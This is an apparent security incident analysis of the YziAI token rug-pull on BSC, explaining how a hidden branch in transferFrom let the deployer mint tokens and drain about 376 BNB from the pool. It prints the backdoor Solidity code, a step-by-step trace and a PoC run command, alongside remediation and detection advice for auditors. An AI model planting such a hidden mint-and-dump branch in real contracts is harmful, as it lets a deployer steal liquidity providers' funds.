



# Yzi AI (YziAI / YziLabs) Exploit — Hard-Coded `manager` Backdoor in `transferFrom`

> **Reproduction:** the PoC compiles & runs in an isolated Foundry project at
> [this project folder](.) (the umbrella DeFiHackLabs repo bundles many
> unrelated PoCs that do not whole-compile, so this one was extracted).
> Full verbose trace: [output.txt](output.txt).
> Verified vulnerable source: [token (5).sol](<sources/YziLabs_7fDfF6/token (5).sol>).

---

## Key info

| | |
|---|---|
| **Loss** | **~376.07 BNB** (≈ $222K @ ~$590/BNB) — the entire WBNB side of the YziAI/WBNB PancakeSwap pool |
| **Vulnerable contract** | `YziLabs` ("Yzi AI", YziAI) — [`0x7fDfF64Bf87bad52e6430BDa30239bD182389Ee3`](https://bscscan.com/address/0x7fDfF64Bf87bad52e6430BDa30239bD182389Ee3#code) |
| **Victim pool** | YziAI/WBNB PancakeSwap V2 pair (Cake-LP) — `0xb53C43dEbCdB1055620d17D0d3aE3cc63eCe0919` |
| **Attacker EOA (= `manager`)** | [`0x63FC3fF98De8d5cA900e68E6c6F41a7CA949c453`](https://bscscan.com/address/0x63fc3ff98de8d5ca900e68e6c6f41a7ca949c453) |
| **Attack tx** | [`0x4821392c0b27a4acc952ff51f07ed5dc74d4b67025c57232dae44e4fef1f30e8`](https://bscscan.com/tx/0x4821392c0b27a4acc952ff51f07ed5dc74d4b67025c57232dae44e4fef1f30e8) |
| **Chain / block / date** | BSC / 47,838,545 / 2025-03-27 |
| **Compiler** | Solidity v0.8.26, optimizer **off** (200 runs metadata, but `optimizer = 0`) |
| **Bug class** | Malicious / rug-pull backdoor — privileged hidden mint-and-dump path inside the ERC20 `transferFrom` override |

---

## TL;DR

`YziLabs` is a vanilla-looking OpenZeppelin ERC20 with a **booby-trapped `transferFrom`**. The
override contains a magic-number branch:

```solidity
if (msg.sender == manager && amount == 1199002345) { ... }
```

([token (5).sol:45](<sources/YziLabs_7fDfF6/token (5).sol#L45>)).

When the contract's own `manager` (the deployer EOA) calls `transferFrom` with the magic amount
`1199002345`, the contract:

1. **Mints itself 10,000× the entire supply** — `_mint(address(this), supply * 10000)` → 1e31 YziAI
   out of thin air ([:46](<sources/YziLabs_7fDfF6/token (5).sol#L46>)).
2. **Approves the PancakeRouter** for 100,000× supply ([:47](<sources/YziLabs_7fDfF6/token (5).sol#L47>)).
3. **Dumps `balanceOf(to) * 1000` of the freshly-minted tokens** into the pool via
   `swapExactTokensForETH`, sending the BNB proceeds straight to `manager`
   ([:52-58](<sources/YziLabs_7fDfF6/token (5).sol#L52-L58>)).

Because `to` in the attack call is the **liquidity pool itself**, `balanceOf(to)` is the pool's
own YziAI reserve (~26.67M tokens); `× 1000` = ~26.67 **billion** tokens are swapped in — about
1,000× the pool's depth. The pool pays out essentially **all of its 376.45 WBNB** (376.07 BNB) to
the attacker. No flash loan, no capital, no second contract — a single `transferFrom` call drains
the pool. This is a classic deployer rug-pull hidden inside what looks like a normal token.

---

## Background — what YziLabs does

`YziLabs` ([source](<sources/YziLabs_7fDfF6/token (5).sol>)) presents as a standard
`ERC20 + Ownable + ERC20Permit` token named **"Yzi AI" (YziAI)** with a 1,000,000,000-token supply
(18 decimals → `supply = 1e27`, [:26](<sources/YziLabs_7fDfF6/token (5).sol#L26>)).

The only non-standard logic is an overridden `transferFrom`
([:44-75](<sources/YziLabs_7fDfF6/token (5).sol#L44-L75>)) that bolts on what *looks* like
anti-bot / anti-sniper protection:

- A `traders` allow-list and a `tx.origin == manager` fast-path
  ([:62-63](<sources/YziLabs_7fDfF6/token (5).sol#L62-L63>)).
- A per-transfer size limit keyed off the pool balance (`min1`/`min2`, set by `setMin`)
  ([:66-69](<sources/YziLabs_7fDfF6/token (5).sol#L66-L69>)).

The `manager` address is captured once in the constructor (`manager = msg.sender`,
[:36](<sources/YziLabs_7fDfF6/token (5).sol#L36>)) and is **private and immutable** — there is no
setter, so it permanently equals the deployer. `owner()` was renounced (returns `0x0`) to make the
token look "safe", but `manager` retains the backdoor.

On-chain state at the fork block (block 47,838,544):

| Parameter | Value |
|---|---|
| `totalSupply()` | 1,000,000,000 YziAI (`1e27`) |
| `decimals()` | 18 |
| `router` | `0x10ED43C718714eb63d5aA57B78B54704E256024E` (PancakeRouter V2) |
| Pool YziAI reserve (`reserve0`) | 26,670,942.645… YziAI (`2.667e25`) |
| Pool WBNB reserve (`reserve1`) | **376.449 WBNB** ← the prize |
| Attacker BNB balance before | 0.2966 BNB |

> The trace decodes the PancakeRouter as `Recovery` — that is just a foundry label collision; the
> address `0x10ED43C718714eb63d5aA57B78B54704E256024E` is the canonical PancakeSwap V2 router.

---

## The vulnerable code

### The backdoor branch in `transferFrom`

```solidity
function transferFrom(address from, address to, uint256 amount) public virtual override returns (bool) {
    if (msg.sender == manager && amount == 1199002345) {
        _mint(address(this), supply * 10000);            // mint 10,000× supply to the token contract
        _approve(address(this), router, supply * 100000); // approve router for 100,000× supply

        path.push(address(this));
        path.push(IUniswapV2Router02(router).WETH());

        IUniswapV2Router02(router).swapExactTokensForETH(
            balanceOf(to) * 1000,      // dump 1000× the recipient's balance
            1,                         // amountOutMin = 1 (no slippage protection)
            path,
            manager,                   // BNB proceeds go to the deployer
            block.timestamp + 1e10
        );
        return true;
    }
    // ... "normal" anti-bot path below ...
}
```

[token (5).sol:44-60](<sources/YziLabs_7fDfF6/token (5).sol#L44-L60>)

Three things make this a one-shot pool drain:

1. **Unlimited self-mint.** `_mint(address(this), supply * 10000)` gives the contract 10,000× the
   circulating supply, so there is always more than enough to overwhelm the pool.
2. **`to` controls the swap size.** The amount sold is `balanceOf(to) * 1000`. The attacker passes
   `to = pool`, so the dump is 1,000× the pool's own YziAI reserve — guaranteeing the swap walks the
   price all the way down and extracts the maximum WBNB.
3. **No slippage floor.** `amountOutMin = 1`, so the swap cannot revert on price impact, and the
   BNB output is sent directly to `manager`.

---

## Root cause — why it was possible

This is not an accounting bug or an AMM-invariant subtlety; it is a **deliberately planted
backdoor**. The token was designed from day one so that the deployer could, at any moment, mint
unlimited tokens and convert the pool's entire BNB liquidity into their own funds:

- **Hidden privileged path.** The branch is gated on `msg.sender == manager` *and* a non-obvious
  magic constant `amount == 1199002345`, so it never fires for ordinary users and is easy to miss in
  a casual code read. It masquerades as part of an anti-bot transfer override.
- **Immutable, undisclosed admin.** `manager` is private, set to the deployer, and never renounced
  or changed — even though `owner()` was renounced to project a false sense of safety.
- **Self-mint with no cap.** The override calls the internal `_mint` directly, bypassing any
  external mint guard, and mints orders of magnitude more than total supply.
- **Pool-targeted dump.** Using `balanceOf(to) * 1000` with `to = pool` and `amountOutMin = 1`
  turns the AMM into a faucet: the contract sells far more YziAI than the pool can absorb at any
  reasonable price, draining the WBNB side completely in one swap.

In short: any holder of LP value in this token was depositing into a pool whose token issuer could
empty it whenever they liked. The "exploit" is simply the author pulling their own rug.

---

## Preconditions

- Caller must be the immutable `manager` (the deployer EOA `0x63FC…c453`). Only the attacker can
  trigger it — this is a self-rug, not an open exploit.
- The magic `amount == 1199002345` must be passed (in the PoC: the literal `1_199_002_345`).
- A YziAI/WBNB pool with non-trivial WBNB liquidity must exist (376.45 WBNB here) — that liquidity
  is the target.
- **No capital, no flash loan, no second contract.** A single `transferFrom` call suffices; the
  contract mints its own ammunition.

---

## Attack walkthrough (with on-chain numbers from the trace)

All figures come directly from [output.txt](output.txt). The pair's `token0 = YziAI`,
`token1 = WBNB`, so `reserve0 = YziAI`, `reserve1 = WBNB`.

| # | Step | Concrete value (from trace) | Effect |
|---|------|-----------------------------|--------|
| 0 | **Initial pool** | reserve0 = 26,670,942.6457 YziAI, reserve1 = 376.4492 WBNB | Honest pool with 376.45 BNB of liquidity. |
| 1 | Attacker (= `manager`) calls `transferFrom(pool, pool, 1199002345)` | — | Hits the backdoor branch. |
| 2 | `_mint(address(this), supply * 10000)` | mints **10,000,000,000,000 YziAI** (`1e31`) to the YziAI contract | Contract now holds 10,000× supply. |
| 3 | `_approve(address(this), router, supply * 100000)` | approve router for **1e32** | Router can pull the minted tokens. |
| 4 | `swapExactTokensForETH(balanceOf(pool) * 1000, 1, …)` | sells **26,670,942,645,701,260,714,092,677,000** (`2.667e28`) YziAI | ~1,000× the pool's YziAI reserve dumped in one swap. |
| 5 | Router pulls tokens, swaps, pool emits `Swap` | `amount0In = 2.667e28`, `amount1Out = 376,072,147,985,651,439,119` (`376.0721 WBNB`) | Pool pays out essentially its entire WBNB reserve. |
| 6 | Router unwraps WBNB → BNB, sends to `manager` | `WBNB::withdraw(376.0721)`, BNB → attacker | Attacker pockets 376.07 BNB. |
| 7 | Pool `Sync` after swap | reserve0 = 26,697,613,588.35 YziAI, reserve1 = **0.37701 WBNB** | WBNB side drained from 376.45 → 0.377; YziAI reserve bloated. |

Post-attack pool balances (read in the same swap via `balanceOf`):
`YziAI(pool) = 26,697,613,588.35` (now flooded with worthless minted tokens),
`WBNB(pool) = 0.37701 WBNB` — i.e. **>99.9% of the pool's BNB was removed**.

### Profit / loss accounting (BNB)

| Item | Amount |
|---|---:|
| Attacker BNB before | 0.296583 |
| Attacker BNB after | 376.368731 |
| **Net profit** | **+376.072148 BNB** |
| WBNB swapped out of pool | 376.072148 |
| Pool WBNB reserve drained (376.449 → 0.377) | ≈ 376.072 |

The net profit (376.072 BNB) equals the swap's WBNB output to the wei — the attacker simply walked
off with the pool's entire BNB liquidity. The ~0.377 WBNB left behind is the only thing the
constant-product curve mathematically prevented from being extracted in that single swap. At
~$590/BNB this is roughly **$222K** (the PoC header rounds to "~376 BNB").

---

## Diagrams

### Sequence of the attack



### Pool state evolution



### The flaw inside `transferFrom`



---

## Why each magic number

- **`amount == 1199002345`** — the secret "password" that distinguishes the backdoor from a real
  transfer. It is small and innocuous-looking; a casual reader or automated scanner skimming the
  override would likely treat it as an arbitrary anti-bot constant.
- **`supply * 10000` (mint) / `supply * 100000` (approve)** — wildly over-provisions the contract so
  the dump can never run out of tokens, regardless of pool size.
- **`balanceOf(to) * 1000`** — with `to = pool`, this sells ~1,000× the pool's own YziAI reserve.
  Selling that far past the pool's depth pushes the AMM price of YziAI to ~0 and extracts virtually
  the entire WBNB side. Any positive multiplier large enough to dwarf the pool would work; 1000×
  guarantees it.
- **`amountOutMin = 1`** — disables slippage protection so the value-destroying swap cannot revert;
  the attacker doesn't care about price, only about pulling out the WBNB.

---

## Remediation

This contract is malicious by construction, so "remediation" is really guidance for users/integrators
and auditors:

1. **There is no legitimate fix for the deployed token** — the backdoor is intrinsic. Any pool paired
   with a token that lets a privileged address `_mint` and `swap` against the pool inside `transferFrom`
   is unsalvageable. LPs should never provide liquidity to it.
2. **Never override `transferFrom`/`transfer` with mint or swap side-effects.** Token transfer hooks
   must not create supply or move pool reserves. A transfer should only move `amount` from `from` to
   `to`.
3. **Treat hidden privileged constants as red flags.** Branches gated on `msg.sender == <admin>` plus
   a magic numeric amount, an immutable private `manager` with no setter, or "`owner()` renounced but
   another admin retained" are hallmarks of a rug-pull backdoor.
4. **Cap and event-gate minting.** Any mint path must be externally visible (events), access-controlled
   through a single audited function, and bounded by a hard supply cap — not callable as a side-effect
   of a user-facing function.
5. **Automated screening.** Scanners should flag tokens that (a) call `_mint`/`swap*` from inside
   `transfer`/`transferFrom`, (b) sell `balanceOf(arbitraryAddress) * k` into an AMM, or (c) pass
   `amountOutMin = 1` while routing proceeds to an admin address.

---

## How to reproduce

The PoC was extracted into a standalone Foundry project (the umbrella DeFiHackLabs repo bundles many
unrelated PoCs that fail `forge test`'s whole-project build):

```bash
_shared/run_poc.sh 2025-03-YziAIToken_exp -vvvvv
```

- RPC: a **BSC archive** endpoint is required (fork block 47,838,544 is well in the past).
  `foundry.toml` uses `https://bsc-mainnet.public.blastapi.io`, which serves historical state at that
  block (the default onfinality public endpoint rate-limited with HTTP 429 and was swapped out).
- Result: `[PASS] testExploit()` — BNB balance goes from `0.2966` to `376.3687`.

Expected tail:

```
Ran 1 test for test/YziAIToken_exp.sol:YziAIToken_exp
[PASS] testExploit() (gas: 256786)
  BNB balance before attack: 0.296582649660877463
  BNB balance after attack: 376.368730635312316582
Suite result: ok. 1 passed; 0 failed; 0 skipped
```

---

*Reference: TenArmor alert — https://x.com/TenArmorAlert/status/1905528525785805027 (YziAI, BSC, ~376 BNB).*
